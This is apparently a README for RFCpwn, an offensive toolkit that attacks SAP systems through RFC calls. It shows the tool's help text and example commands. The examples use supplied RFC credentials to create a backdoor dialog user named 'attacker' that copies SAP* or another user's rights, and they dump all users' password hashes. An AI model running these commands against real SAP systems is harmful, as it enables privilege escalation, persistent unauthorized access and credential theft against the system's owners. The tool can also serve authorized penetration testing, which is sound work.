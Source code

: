 ### RFCpwn
An Impacket style enumeration and exploitation toolkit using SAP RFC calls

RFCpwn relies on the pyrfc and the libraries provided by SAP in: https://github.com/SAP/PyRFC#installation

```shell
python3 ./RFCpwn.py -h 
usage: RFCpwnv2.py [-h] [-debug] [-ip IP] [-u Username] [-p Password]
                   [-c Client] [-s Sysid] [-ping] [-enum] [-usercopy]
                   [-user USER] [-copy COPY] [-pw PW] [-dump] [-exp]

An Impacket style enumeration and exploitation tool using SAP RFC calls

optional arguments:
  -h, --help   show this help message and exit
  -debug       Turn DEBUG output ON

Authentication:
  -ip IP       <targetName or address>
  -u Username  RFC Users Username
  -p Password  RFC Users Password
  -c Client    Client- eg.000
  -s Sysid     System Number- eg 00
  -ping        RFC Ping Command

User Abuse:
  -enum        Use to enumerate a specific user
  -usercopy    add a Dialog User
  -user USER   Required for -usercopy and -userenum to specify the user
  -copy COPY   User to be copied required for -usercopy
  -pw PW       password of new user for -usercopy

Hash Collection:
  -dump        Dump hashes use with below
  -exp         EXPERIMENTAL - Dump BCODE / PASSCODE hashes
  ```
## Examples
Ping
```shell
python3 ./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -ping
```
Copy a users rights into a new dialog user. If -copy is not specified SAP* is used.
```shell
python3 ./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -usercopy -user attacker -pw changeme1
python3 ./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -usercopy -user attacker -pw changeme1 -copy basisguy1
```
Dump hashes from all users. option -exp for experimental bcode & passcode hashes.
```shell
python3 ./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -dump
python3 ./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass 
```
